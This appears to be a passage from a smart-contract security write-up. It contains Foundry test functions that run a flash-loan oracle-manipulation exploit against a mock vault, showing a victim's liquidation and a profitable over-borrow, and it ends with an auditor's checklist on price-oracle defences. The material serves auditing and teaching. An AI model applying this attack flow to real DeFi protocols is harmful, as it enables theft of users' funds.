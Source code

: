 ```solidity

    // Scenario A: Liquidation succeeds
    function testScenarioA_LiquidationSuccess() public {
        bytes memory data = abi.encodeWithSelector(AntManExploit.execute.selector, 500_000 ether, wasp, 0);
        vm.prank(attacker);
        qrbA.flashLoan(500_000 ether, address(exploit), data);

        // Wasp collateral should be seized
        assertEq(vault.collateralBalance(wasp), 0);
    }

    // Scenario A: Over-borrow fails due to AMM slippage
    function testScenarioA_OverBorrowFails() public {
        bytes memory data = abi.encodeWithSelector(AntManExploit.execute.selector, 500_000 ether, wasp, 1);
        vm.expectRevert("loan not repaid");
        vm.prank(attacker);
        qrbA.flashLoan(500_000 ether, address(exploit), data);
    }

    // Scenario B: Over-borrow succeeds using TokenB flash loan
    function testScenarioB_OverBorrowSucceeds() public {
        // Deploy flash loan bank for TokenB
        QuantumRealmBank qrbB = new QuantumRealmBank(address(tokenB));
        tokenB.mint(address(qrbB), 1_000_000 ether);

        // Mint enough TokenB to the Vault to allow over-borrow
        tokenB.mint(address(vault), 1_000_000 ether);

        // Give exploit contract extra TokenA to repay swap-back
        tokenA.mint(address(exploit), 500_000 ether);

        bytes memory data = abi.encodeWithSelector(AntManExploit.execute.selector, 500_000 ether, wasp, 2);
        vm.prank(attacker);
        qrbB.flashLoan(500_000 ether, address(exploit), data);

        // Attacker should have profit in TokenB
        assertGt(tokenB.balanceOf(attacker), 0);
        console.log("Attacker TokenB profit:", tokenB.balanceOf(attacker));
    }
}
```

---

## Auditor’s checklist 

* [ ] Does any critical function depend on a mutable on-chain spot price (`getPymPrice()`)?
* [ ] Are price sources resistant to single-tx manipulation (TWAP / aggregated feeds)?
* [ ] Are there borrow/cap limits that make manipulation expensive?
* [ ] Are pre/post invariant checks performed around external calls?
* [ ] Do tests include large-swap / quantum-loan scenarios?
* [ ] Are monitoring & circuit breakers present for mass/fast withdrawals?

---